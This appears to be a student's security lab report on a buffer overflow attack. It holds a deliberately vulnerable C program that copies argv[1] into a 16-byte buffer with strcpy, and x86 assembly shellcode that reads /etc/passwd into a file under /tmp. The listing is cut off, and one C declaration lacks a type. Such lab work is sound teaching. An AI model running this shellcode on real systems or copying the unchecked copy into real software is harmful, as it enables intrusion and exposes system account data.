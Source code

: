 # Lab #1,22110015, Nguyen Manh Cuong, INSE330380E_01FIE
# Task 1: Software buffer overflow attack
Given a vulnerable C program 
```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```
and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile
```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373 
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
```